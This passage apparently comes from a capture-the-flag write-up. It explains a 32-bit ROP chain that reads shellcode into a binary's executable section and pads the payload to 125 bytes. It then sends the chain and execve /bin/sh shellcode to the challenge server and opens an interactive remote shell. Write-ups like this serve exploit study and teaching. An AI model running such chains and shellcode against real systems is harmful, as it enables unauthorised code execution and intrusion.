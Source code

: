 Whatever this syscall is (I don't know the value of `eax` after the mprotect call, nor do I care), it fails but the side-effect is that `ebx` is now 0. That sets us up for moving the correct number in `eax`:

```python
# set eax = 3
'''
0x804834a:  0x00000003  0x00000000
'''
payload += p(POPRET)    # pop esi; ret
payload += p(0x804834a) # set esi = 0x804834a
payload += p(LESEAX)    # eax -> 0x3 == syscall_read
```

First, I use a `pop esi; ret` gadget to set the value of `esi` to a 48 bit value that contains: 0x3, 0x0. Then I return to the little gadget to set `eax` (and `es`) using those values. This results in `eax` being the correct number for the next syscall, read:

```python
payload += p(SYSCALL)
payload += p(ADDESP)    # fix stack
payload += p(0)         # stdin
payload += p(0x8048000) # address of buffer
payload += p(0x200)     # number of bytes to read
payload += "BBBB"       # dummy value

payload += p(0x8048000)
```

This reads in `0x200` bytes from stdin to the start of the executable section of the binary. Finally, the ROP chain returns to the start of that buffer, which hopefully contains our shellcode! Finally, make sure that the payload is indeed 125 bytes long, else this entire house of cards falls down:

```python
# payload length must be 125, because after read, the next
# syscall is mprotect; eax = 125
payload += "A"*(125-len(payload))
```

Because I ran the executable locally via socat, I need to connect to the proper socket and send the payload. The same goes for the remote connection.

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#s.connect(("localhost",28099))
s.connect(("pwnable.katsudon.org",28099))

s.send(payload)
```

After finishing the ROP chain, the binary should now be awaiting further shellcode on stdin, so I'd better send that over quickly!

```python
# http://www.shell-storm.org/shellcode/files/shellcode-851.php
s.send("\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68")

# the shell should have been spawned, so interact with it
t = telnetlib.Telnet()
t.sock = s
t.interact()
```
